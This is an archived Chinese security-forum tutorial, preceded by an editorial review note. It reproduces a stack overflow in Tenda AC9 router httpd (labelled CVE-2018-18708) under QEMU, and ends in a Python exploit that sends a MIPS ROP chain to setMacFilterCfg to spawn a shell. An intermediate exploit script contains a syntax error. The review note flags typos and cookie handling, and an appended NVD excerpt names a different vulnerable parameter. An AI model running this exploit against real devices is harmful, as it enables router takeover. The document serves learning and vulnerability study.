#  CVE-2018-18708 TENDA缓冲区溢出漏洞   

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Tenda AC9，另列AC7/10/15/18
- 本文讨论：CVE-2018-18708；5767仅方法参考
- 版本、权限与配置前提：实验US_AC9V3.0RTL_V15.03.06.42；QEMU补丁、关闭ASLR及固定libc地址；cookie示例
- 资料类型：MIPS栈溢出学习复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- cookie={Cookie:password=1111}作为requests cookies使用生成错误cookie名，不能代表正确登录
- 一例libc偏移0x0006054漏末位C，另一例p32(gadget1)b字符串缺+
- 实验固件不在开头官方影响列表，需要明确新增测试范围；无修复版本
- 多个空标题/代码块，截图承载关键偏移证据

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 认证状态、原固件与patch差异、修复矩阵及ASLR前提待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

The_Itach1  看雪学苑   2022-08-13 17:59  
  
  
  
本文为看雪论坛精华文章  
  
看雪论坛作者ID：The_Itach1  
#   
  
  
相比于之前的CVE-2018-5767，这个cve影响的路由器挺多，有arm架构，有mips架构的，本次实验的就是一个mips架构的Tenda AC9 US_AC9V3.0RTL_V15.03.06.42_multi_TD01。  
  
   
  
来学习下mips架构下的一些不同之处。  
  
   
  
然后后面我也基于这个固件的httpd程序，参考mipsAudit写了一个idapython辅助分析脚本，  
https://github.com/The-Itach1/Audit  
##   
##   
  
  
CVE-2018-18708，多款Tenda产品中的httpd存在缓冲区溢出漏洞。攻击者可利用该漏洞造成拒绝服务（覆盖函数的返回地址）。以下产品和版本受到影响：Tenda AC7 V15.03.06.44_CN版本；AC9 V15.03.05.19(6318)_CN版本；AC10 V15.03.06.23_CN版本；AC15 V15.03.05.19_CN版本；AC18 V15.03.05.19(6318)_CN版本。  
  
   
  
Tenda AC9 US_AC9V3.0RTL_V15.03.06.42_multi_TD01固件下载：  
https://www.tenda.com.cn/service/download-cata-11.html  
##   
##   
##   
  
  
binwalk导出固件文件系统，没有加固这些。  
```
binwalk -Me US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin
```  
  
  
  
查看文件信息，mips，小端序，所以需要使用对应的qemu-mipsel-static来模拟。  
```
readelf -h ./bin/httpd
```  
  
  
  
  
同样和之前的tenda路由器设备，都需要patch下，mips的调用函数有点不一样，常规来说是下面这种方式，先la将函数地址给v0，然后给t9，然后在跳转到函数。  
```
la      $v0, websGetVar
move    $t9, $v0
jalr    $t9 ; websGetVar
```  
  
  
  
所以想patch，直接patch掉jalr这一句就行，然后将v0寄存器赋值为1即可。  
  
  
  
   
  
建立一个虚拟网桥br0。  
```
sudo apt install uml-utilities bridge-utils
sudo brctl addbr br0
sudo brctl addif br0 ens33
sudo ifconfig br0 up
sudo dhclient br0
```  
  
  
  
尝试qemu启动，即可启动。  
```
cp $(which qemu-mipsel-static) .
 
sudo chroot ./ ./qemu-mipsel-static ./bin/httpd
```  
  
  
  
  
  
漏洞点在parse_macfilter_rule函数中的strcpy(a2, v4)，这个函数不会引发栈溢出，复制的字符串，实际上在后面的分析中发现是上一个函数的局部变量，从而在上一个函数造成栈溢出。  
  
   
  
通过交叉引用我们可以得到这样的函数调用链，我们采用动调的方式，配合静态，依次来分析，并构造出一个测试的poc。  
  
   
  
formDefineTendDa->formSetMacFilterCfg->set_macfilter_rules->set_macfilter_rules_by_one->parse_macfilter_rule  
  
   
  
formDefineTendDa函数，这是一个包含路由器接口和其对应处理函数的总函数。  
  
   
  
先访问下这个接口，"  
http://192.168.112.131/goform/setMacFilterCfg  
"，抓个包，需要访问两次，第一次好像并没有访问到此接口。  
  
然后查看下返回的包。  
  
返回了个{"errCode":2}，我们到formSetMacFilterCfg函数内部，查看setMacFilterCfg接口对应的处理过程，需要注意的是这些地方。  
```
Var = (const char *)websGetVar(a1, "macFilterType", &unk_52346C);
v2 = set_macfilter_mode(Var);
 
...
...
reload_macfilter_rules_to_wireless(Var);
```  
  
  
  
首先我们需要知道websGetVar这个函数，这个函数实际上就是在从前端传过来的表单中获取对应的值。  
  
   
  
结合ida动调分析如下。  
  
现在我们知道了为什么会返回{"errCode":2}，所以现在的关键点就在于如何让set_macfilter_mode函数返回0，传给这个函数参数为websGetVar获取到macFilterType的具体值。  
  
   
  
进入set_macfilter_mode函数内部，发现其对传入的值进行的strcmp比较，从而决定返回的值。  
  
所以必须post传参，"macFilterType": "black"，或者white。  
  
   
  
然后回到formSetMacFilterCfg，下面还websGetVar了一个"deviceList"，然后会进入set_macfilter_rules，参数为macFilterType的值和deviceList的值。  
  
   
  
分析set_macfilter_rules函数。  
  
进入set_macfilter_rules_by_one，实际上这个才是会发生溢出的函数，其v4变量会由于parse_macfilter_rule中的strcpy导致溢出而覆盖返回地址。  
  
进入parse_macfilter_rule函数，分析得知，deviceList第一个字节必须是'\r'。  
  
  
   
  
到这里溢出产生原因和具体影响的函数就分析完了，现在主要的就是去找偏移，找偏移的方法很多，可以利用cyclic，可以gdb调试然后去查看栈空间，可以在ida的Stack窗口去查看一个大概的范围。  
  
   
  
这里我就直接通过ida来判断一个大概的范围，然后再写exp，去用gdb调试获取真正的偏移。  
  
然后计算一下，偏移大概就是在472或者476的样子，我们编写exp进行测试。  
```
import requests
from pwn import *
 
url = "http://192.168.112.131/goform/setMacFilterCfg"
cookie = {"Cookie":"password=1111"}
data = {"macFilterType": "black", "deviceList":"\r" +  "A" * 472 + "bbbb"}
 
requests.post(url, cookies=cookie, data=data)
```  
  
  
  
用pwngdb进行调试。  
  
  
  
可以看到刚刚好。  
##   
##   
###   
### 寻找libc基址  
  
  
漏洞利用首先需要找到libc.so.0的基址，同样和之前的CVE-2018-5767一样，同样vmmap无法使用，但是这里我还是找到了一个比较特殊的方法找到了基址。  
  
   
  
我在strcpy处打了个断点，然后发现并没有在相关位置断下来，然后就bt查看调用链，发现了调用了uClibc_main，根据ida的交叉引用也可以直接到相应位置，这个位置感觉相当于mips程序的start函数。  
  
然后用ida载入libc.so.0，去exports查看对应的函数地址，发现在0x0005F804，当然也可以用readelf -s ./lib/libc.so.0 | grep uClibc_main。  
  
  
然后我以为两个地址相减就可以得到libc基址的时候，0x7f583a08-0x0005F804=0x7F524204，实际上明显可以看出不对，一般基址后面几个数会是0。  
  
   
  
抱着试一试的想法去看看能不能跳到system，编写exp如下。  
```
import requests
from pwn import *
 
url = "http://192.168.112.131/goform/setMacFilterCfg"
cookie = {"Cookie":"password=1111"}
 
libc_base=0x7f583a08-0x0005F804
system=0x0060320
 
system_addr=libc_base+system
 
data = {"macFilterType": "black", "deviceList":b"\r" +  b"A" * 472 + p32(system_addr)}
 
requests.post(url, cookies=cookie, data=data)
```  
  
  
  
在溢出最后的跳转处，0x04E8204打断点，运行exp，断下来。  
  
  
  
可以看到运气较好的是，我们仍然在libc中，但是不知道具体位置，这时候我们可以用ida的字符串搜索功能，去尝试搜索到对应的位置。  
  
   
  
这里我是alt+t搜索addiu $sp, 0x30，当然搜索syscall也行。并且再次根据后两个字节4c过滤了大量结果。  
  
成功找到对应偏移位置，0x0006054C，由于关了aslr，所以基址不变，得到libc_base=0x7f58454c - 0x0006054C = 0x7F524000  
  
   
  
测试下能不能到system。  
```
import requests
from pwn import *
 
url = "http://192.168.112.131/goform/setMacFilterCfg"
cookie = {"Cookie":"password=1111"}
 
libc_base=0x7f58454c - 0x0006054
system=0x0060320
 
system_addr=libc_base+system
 
data = {"macFilterType": "black", "deviceList":b"\r" +  b"A" * 472 + p32(system_addr)}
 
requests.post(url, cookies=cookie, data=data)
```  
  
  
### 构造rop链  
  
  
对于mips下rop链的构造，经常使用到的是move $a0 $s0，我们使用mipsrop去查找一些可用的。  
  
   
  
先下载mipsrop插件，随便都可以百度到，然后使用。  
  
   
  
7.5版本以上的ida先执行下面的语句。  
```
import mipsrop
mipsrop = mipsrop.MIPSROPFinder()
```  
  
  
  
然后mipsrop.find("move $a0 $s0")，可用的很多，这里我就直接选择第一个，这个就作为gadget2。  
  
  
```
.text:0000DC1C                 move    $a0, $s0
.text:0000DC20                 move    $t9, $s1
.text:0000DC24                 jalr    $t9 ; stat64
```  
  
  
当然我们还需要给里面的寄存器赋值，将$s0赋值为"/bin/sh"的地址，将$s1赋值为system的地址，这样就可以达到执行system("/bin/sh")的目的。  
  
   
  
实际上我们之前得到错误的system的地址的那些代码就可以作为给寄存器赋值的语句，并且可以跳转到gadget2。  
  
```
.text:00060530                 lw      $ra, 0x18+var_s14($sp)
.text:00060534
.text:00060534 loc_60534:                               # CODE XREF: sub_603D8+138↑j
.text:00060534                 lw      $s4, 0x18+var_s10($sp)
.text:00060538                 lw      $s3, 0x18+var_sC($sp)
.text:0006053C                 lw      $s2, 0x18+var_s8($sp)
.text:00060540                 lw      $s1, 0x18+var_s4($sp)
.text:00060544                 lw      $s0, 0x18+var_s0($sp)
.text:00060548                 jr      $ra
.text:0006054C                 addiu   $sp, 0x30
```  
  
  
00060530+base就作为gadget1。  
  
   
  
我们根据上面的代码，根据栈偏移，控制对$ra，$s1，$s0的赋值，最终rop链为  
```
b"\r" +  b"A" * 472 + p32(gadget1)+b"A"*24+p32(binsh_addr)+p32(system_addr)+b"A"*12+p32(gadget2)
```  
  
  
  
报错解决即溯源  
  
  
用上面的exp打一下，会报错。  
  
这里爆了个访问错误，$v0应该是个地址，但是变成了我们的0x41414141。  
  
   
  
通过我们之前验证是否能到system函数可知，只覆盖返回地址是可以的，虽然会把上一级函数fp给覆盖掉，但是我们也不需要返回到上一级函数了。  
  
   
  
使用ida调试，最终发现会在set_macfilter_rules_by_one函数中snprintf函数报错。  
```
snprintf(v5, 0x80u, "macfilter.%s.list%d", a1, a3);
```  
  
  
  
为了区别我用下面的exp打一下。  
```
import requests
from pwn import *
 
url = "http://192.168.112.131/goform/setMacFilterCfg"
cookie = {"Cookie":"password=1111"}
#libc_base=0x7f583a08-0x0005F804
 
libc_base=0x7f58452c-0x0006052C
lib=0x7F524000
system=0x0060320
binsh=0x0006AE30
 
gadget1=libc_base+0x00060530
gadget2=libc_base+0x0000DC1C
system_addr=libc_base+system
binsh_addr=libc_base+binsh
 
data = {"macFilterType": "black", "deviceList":b"\r" +  b"A" * 472 + p32(gadget1)b"bbbb"+b"A"*20+p32(binsh_addr)+p32(system_addr)+b"A"*12+p32(gadget2)}
 
requests.post(url, cookies=cookie, data=data)
```  
  
  
  
ida远程调试。  
  
   
  
第一个注意的点就是传给set_macfilter_rules_by_one的3个参数在进入set_macfilter_rules_by_one函数后保存的位置，主要关注第一个参数，也就是macFilterType值的地址。  
  
而恰好，set_macfilter_rules_by_one在执行完parse_macfilter_rule函数，发生了溢出后，后面的snprintf函数调用了a1，也就是第一个参数，且a1是一个地址，但是按照我们playload覆盖后a1将变为一个值，所以会照成访问异常。  
  
   
  
执行到snprintf。  
  
  
   
  
解决这个错误也很简单，将b"bbbb"，修改为一可访问地址值就行，而且snprintf也限制了长度，不用担心溢出这些。  
  
### 最终exp以及调试  
  
  
exp  
```
import requests
from pwn import *
 
url = "http://192.168.112.131/goform/setMacFilterCfg"
cookie = {"Cookie":"password=1111"}
 
#libc_base=0x7f583a08-0x0005F804
libc_base=0x7f58452c-0x0006052C
lib=0x7F524000
system=0x0060320
binsh=0x0006AE30
 
gadget1=libc_base+0x00060530
gadget2=libc_base+0x0000DC1C
system_addr=libc_base+system
binsh_addr=libc_base+binsh
 
data = {"macFilterType": "black", "deviceList":b"\r" +  b"A" * 472 + p32(gadget1)+p32(0x7FFFF090)+b"A"*20+p32(binsh_addr)+p32(system_addr)+b"A"*12+p32(gadget2)}
 
requests.post(url, cookies=cookie, data=data)
```  
  
  
  
ida或者gdb调都行。  
  
   
  
gadget1  
  
gadget2  
  
getshell  
  
##   
  

> 资料补充（非原文复原）：NVD将 CVE-2018-18708 描述为 Tenda 多款路由器 httpd 对 fromAddressNat POST 请求中的 page 参数使用栈上缓冲区格式化而导致的缓冲区溢出。该资料用于说明漏洞条目背景，不是这些空白围栏中遗失的命令或实验代码。 参考：[公开资料 1](https://nvd.nist.gov/vuln/detail/CVE-2018-18708)。

  
  
这次复现，感觉对mips架构的一些指令以及函数调用更加清晰了，而且也学会了mips中如何构建简单的rop链。  
  
  
## 参考  
  
  
https://www.anquanke.com/post/id/254426#h3-5  
  
  
  
  
  
  
  
**看雪ID：The_Itach1**  
  
https://bbs.pediy.com/user-home-926755.htm  
  
*本文由看雪论坛 The_Itach1 原创，转载请注明来自看雪社区  
  
  
[](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458458572&idx=3&sn=f4516c969b2a0919f9ed1d3053ca6f0a&chksm=b18e294686f9a050bd0e9d9ca8309de05ae9c06af6c162ba1fa2f1e98ddeb7407fa81b3b4e57&scene=21#wechat_redirect)  
  
  
  
**#****往期推荐**  
  
1.[CobaltStrike ShellCode详解](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458460264&idx=1&sn=52e25757888a3df53e8c6d01c7a0229d&chksm=b18e10e286f999f4d1377a09747bfcb8f2ec5dc8ee757c1e69d5b198403571dd9b5386531ad9&scene=21#wechat_redirect)  
  
  
2.[Android APP漏洞之战——SQL注入漏洞初探](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458460061&idx=1&sn=ce272d6b2b2f839d7eeeb2896eb90ee5&chksm=b18e2f1786f9a60139d90f95e9442cc01b6f218f6bd47045dbdeb25d946d7427ba16c9c24cd9&scene=21#wechat_redirect)  
  
  
3.[House of apple 一种新的glibc中IO攻击方法](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458459847&idx=1&sn=f4afaf30634e626ce539023d1de675fe&chksm=b18e2e4d86f9a75bf414e6332f9cfb5601fffe6f3388d5810971b0e92738fe640552ea889841&scene=21#wechat_redirect)  
  
  
4.[so文件分析的一些心得](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458459775&idx=1&sn=6c0c9339f1ffc06d3eba9a4e595e75ff&chksm=b18e2ef586f9a7e384e18d417ac75f9c2d12d1364b5c5f14dc1b42a7fc94b0f4d5e75c0e4d4e&scene=21#wechat_redirect)  
  
  
5.[从PWN题NULL_FXCK中学到的glibc知识](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458459387&idx=1&sn=e2565825c7a6bca43d4b0a5b35d642c2&chksm=b18e2c7186f9a56757279ef7fe8afc1c2c3a57dc74c545180f5eb0d16f86d50f2aa52da62a59&scene=21#wechat_redirect)  
  
  
6.[指令级工具Dobby源码阅读](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458459349&idx=1&sn=c7befdac063330a9ada2e3d1b0e396ef&chksm=b18e2c5f86f9a5492113d4584d85a484eedb3384f8e4ad14235273dd830e4cd57615f08ec926&scene=21#wechat_redirect)  
****  
  
  
  
  
  
  
  
  
  
  
**球分享**  
  
  
  
**球点赞**  
  
  
  
**球在看**  
  
  
  
  
  
点击“阅读原文”，了解更多！  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
